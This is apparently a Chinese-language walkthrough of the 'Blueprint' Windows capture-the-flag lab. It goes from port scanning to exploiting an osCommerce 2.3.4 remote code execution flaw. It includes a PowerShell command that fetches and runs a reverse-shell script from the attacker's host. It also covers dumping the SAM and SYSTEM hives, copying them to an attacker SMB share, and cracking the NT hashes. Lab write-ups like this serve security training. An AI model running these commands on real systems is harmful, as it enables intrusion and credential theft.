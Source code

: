 # Blueprint

入侵此 Windows 计算机并将您的权限升级为管理员

---

循例 nmap扫，主要开了这些端口：

    80/tcp    open  http
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    443/tcp   open  https
    445/tcp   open  microsoft-ds
    3306/tcp  open  mysql
    8080/tcp  open  http-proxy

进smb共享文件夹没啥东西，80进不去，8080和443都是同一个站点

web框架：oscommerce-2.3.4

    searchsploit oscommerce 2.3.4

有rce

直接用exp就能getshell

payload:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.14.39.48:8000/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.14.39.48 -Port 8888

[Invoke-PowershellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

shell权限是system

root.txt在administrator的桌面下

### 转储sam、system

    reg save HKLM\sam sam
    reg save HKLM\system system

攻击机开启smbserver:

    python3 /usr/share/doc/python3-impacket/examples/smbserver.py hack .

上传文件到攻击机：

    copy sam \\10.14.39.48\hack
    copy system \\10.14.39.48\hack

攻击机使用python脚本读取

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system ./system -sam ./sam LOCAL

将Lab用户这一行单拎出来用john爆破：

    john --wordlist=/usr/share/wordlists/rockyou.txt ./hash --format=NT

即可爆出明文密码

爆不出来也可以试试：https://crackstation.net/
